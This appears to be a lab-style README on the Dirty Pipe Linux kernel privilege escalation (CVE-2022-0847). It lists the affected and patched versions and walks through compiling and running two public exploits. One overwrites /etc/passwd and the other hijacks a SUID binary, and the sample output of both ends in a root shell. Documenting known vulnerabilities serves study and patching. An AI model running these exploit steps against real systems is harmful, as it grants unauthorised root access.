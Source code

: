 # CVE-2022-0847 - DirtyPipe - Linux - Privilege Escalation

Dirty Pipe (CVE-2022-0847) is a local privilege escalation vulnerability in the Linux kernel that could potentially allow an unprivileged user to do the following:

- Modify/overwrite arbitrary read-only files like /etc/passwd.
- Obtain an elevated shell.

Affected versions:

- kernels from version 5.8 to 5.17

So far the vulnerability has been patched in the following Linux kernel versions:

- 5.16.11
- 5.15.25
- 5.10.102

## Enumeration

```bash
$ uname -r

5.15.0-051500-generic
```

## Exploitation

## Exploit-1

```bash
$ gcc exploit-1.c -o exploit-1

$ ./exploit-1 

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id
uid=0(root) gid=0(root) groups=0(root)

```

## Exploit-2

```bash
$ gcc exploit-2.c -o exploit-2

$ ./exploit-2
Usage: ./exploit-2 SUID

$ find / -perm -4000 2>/dev/null
...
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
...

$ ./exploit-2 /usr/bin/mount

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id
uid=0(root) gid=0(root) groups=0(root),1000(student)
```

## Links

- [Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [GitHub - AlexisAhmed - PoC - CVE-2022-0847-DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
- [Mitre - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)

